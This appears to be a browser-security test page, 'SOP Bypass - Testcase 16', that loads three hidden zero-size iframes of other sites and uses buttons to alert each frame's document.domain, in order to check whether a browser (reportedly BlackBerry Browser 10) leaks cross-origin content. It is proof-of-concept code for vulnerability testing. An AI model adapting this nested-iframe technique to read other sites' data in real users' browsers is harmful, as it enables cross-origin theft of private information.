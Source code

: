 ```yaml
---
layout: default
title: SOP Bypass - Testcase 16
permalink: /sop/new/16
---
```


Attempting to trigger a SOP Bypass using Nested iframes trick (Blackberry Browser 10) is prone to it

<script>
function sop1() {
    alert(this.frames[0].document.domain);
}
function sop2() {
    alert(this.frames[1].document.domain);
}
function sop3() {
    alert(this.frames[2].document.domain);
}
</script>

<iframe width="0" height="0" src="https://web.archive.org/web/20180831134343if_/https://www.w3schools.com/" id="frame1" name="frame1" data-ruffle-polyfilled=""></iframe>
<iframe width="0" height="0" src="https://web.archive.org/web/20180831134343if_/https://www.bing.com/" id="frame2" name="frame2" data-ruffle-polyfilled=""></iframe>
<iframe width="0" height="0" src="https://web.archive.org/web/20180831134343if_/https://www.example.com/" id="frame3" name="frame3" data-ruffle-polyfilled=""></iframe>

<input type="button" id="btn_test" class="test" value="Run Test Case 1" onclick="sop1()">
<input type="button" id="btn_test" class="test" value="Run Test Case 2" onclick="sop2()">
<input type="button" id="btn_test" class="test" value="Run Test Case 3" onclick="sop3()">

**Note:**
If page displays an alert box displaying bing.com, your browser is vulnerable to SOP bypass.
